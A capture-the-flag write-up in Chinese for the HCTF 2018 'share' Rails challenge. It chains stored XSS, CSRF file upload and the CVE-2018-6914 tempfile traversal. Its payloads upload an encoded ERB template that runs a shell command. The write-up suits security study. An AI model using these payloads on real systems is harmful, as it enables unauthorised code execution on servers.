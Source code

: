  hctf2018_share_wp
===

# step1:
 从**http://share.2018.hctf.io/robots.txt**中获取到题目部分源码
 
```ruby
class FileController < ApplicationController
  before_action :authenticate_user!
  before_action :authenticate_role
  before_action :authenticate_admin
  protect_from_forgery :except => [:upload , :share_people_test]

# post /file/upload
  def upload
    if(params[:file][:myfile] != nil && params[:file][:myfile] != "")
      file = params[:file][:myfile]
      name = Base64.decode64(file.original_filename)
      ext = name.split('.')[-1]
      if ext == name || ext ==nil
        ext=""
      end
      share = Tempfile.new(name.split('.'+ext)[0],Rails.root.to_s+"/public/upload")
      share.write(Base64.decode64(file.read))
      share.close
      File.rename(share.path,share.path+"."+ext)
      tmp = Sharefile.new
      tmp.public = 0
      tmp.path = share.path
      tmp.name = name
      tmp.tempname= share.path.split('/')[-1]+"."+ext
      tmp.context = params[:file][:context]
      tmp.save
    end
    redirect_to root_path
  end

# post /file/Alpha_test
  def Alpha_test
    if(params[:fid] != "" && params[:uid] != "" && params[:fid] != nil && params[:uid] != nil)
      fid = params[:fid].to_i
      uid = params[:uid].to_i
      if(fid > 0 && uid > 0)
        if(Sharelist.find_by(sharefile_id: fid)==nil)
            share = Sharelist.new
            share.sharefile_id = fid
            share.user_id = uid
            share.save
        end
      end
    end
    redirect_to(root_path)
  end

  def share_file_to_all
    file = Sharefile.find(params[:fid])
    File.rename(file.path,Rails.root+"/public/download/"+file.name)
    file.public = true
    file.path = Rails.root+"/public/download/"+file.name
    file.save
  end

end
```


接着在代码中我们可以获取到
```ruby
  before_action :authenticate_user!
  before_action :authenticate_role
  before_action :authenticate_admin
  protect_from_forgery :except => [:upload , :share_people_test]
```

这个controller的所有function都需要admin权限，且`upload`和`share_people_tet`是没有csrf token认证的。

# step2:

在 **http://share.2018.hctf.io/home/share** 中存在一个提交表单，提交一段xss可以看到xss会被执行，但cookie开启了httponly。所以我们可以进行csrf upload来上传文件，之后再通过csrf获取上传后的文件名。

payload 如下：

```html
<!-- csrf upload payload -->
<script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http://share.2018.hctf.io/file/upload", true);
        xhr.setRequestHeader("Accept", "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "de-de,de;q=0.8,en-us;q=0.5,en;q=0.3");
        xhr.setRequestHeader("Content-Type", "multipart/form-data; boundary=----WebKitFormBoundarysWrrwCoy7FeMquna");
        xhr.withCredentials = "true";
        var body = "------WebKitFormBoundarysWrrwCoy7FeMquna\r\n" +
          "Content-Disposition: form-data; name=\"file[context]\"\r\n" +
          "\r\n" +
          "aaaa" +
          "\r\n" +
          "------WebKitFormBoundarysWrrwCoy7FeMquna\r\n" +
          "Content-Disposition: form-data; name=\"file[myfile]\"; filename=\"Li4vLi4vYXBwL3ZpZXdzL2hvbWUvY3NyZi5lcmI=\"\r\n" +
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" +
          "PCU9IGBscyAuLi8uLi9gICU+\r\n" +
          "------WebKitFormBoundarysWrrwCoy7FeMquna\r\n" +
          "Content-Disposition: form-data; name=\"commit\"\r\n" +
          "\r\n" +
          "submit  \r\n" +
          "------WebKitFormBoundarysWrrwCoy7FeMquna--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i);
        xhr.send(new Blob([aBody]));
      }
        submitRequest();
    </script>
```

```html
<!-- csrf post payload -->
<form action="http://share.2018.hctf.io/file/Alpha_test" id="test" method="POST">
        <input type="text" name="uid"><br>
        <input type="text" name="fid">
        
    </form>
</body>
<script>
    var f=document.getElementById("test");
    f.getElementsByTagName("input")[0].value="2";
    f.getElementsByTagName("input")[1].value="3";
    f.submit();
</script>
```


# step3:

hint 1和hint2分别给出了views的目录结构和index.html.erb中的一段局部渲染代码。
```
hint1:
views
|-- devise
| |-- confirmations
| |-- mailer
| |-- passwords
| |-- registrations
| | `-- new.html.erb
| |-- sessions
| | `-- new.html.erb
| |-- shared
| `-- unlocks
|-- file
|-- home
| |-- Alphatest.erb
| |-- addtest.erb
| |-- home.erb
| |-- index.html.erb
| |-- publiclist.erb
| |-- share.erb
| `-- upload.erb
|-- layouts
| |-- application.html.erb
| |-- mailer.html.erb
| `-- mailer.text.erb
`-- recommend
   `-- show.erb
hint2:
<%= render template: "home/"+params[:page] %>
```

从hint2可以明确(看到hint1其实可以猜测)的知道需要跨目录上传文件到**app/views/home**下，在ruby的官网也能看到
**CVE-2018-6914: Unintentional file and directory creation with directory traversal in tempfile and tmpdir** 且在upload中同样使用到了tempfile，尝试使用该漏洞进行跨目录上传恶意文件。

最后再csrf获取该文件名字，访问`http://share.2018.hctf.io/home/获得的filename`，done!

ps: 这一题出的时间比较赶，没有思考好场景怎么造比较好，所以这道题存在被偷鸡的方式，且中途由于bot没写好容易挂的原因给各位师傅造成不便，有点抱歉。最后谢谢做我题目的师傅，都是好人呐QAQ


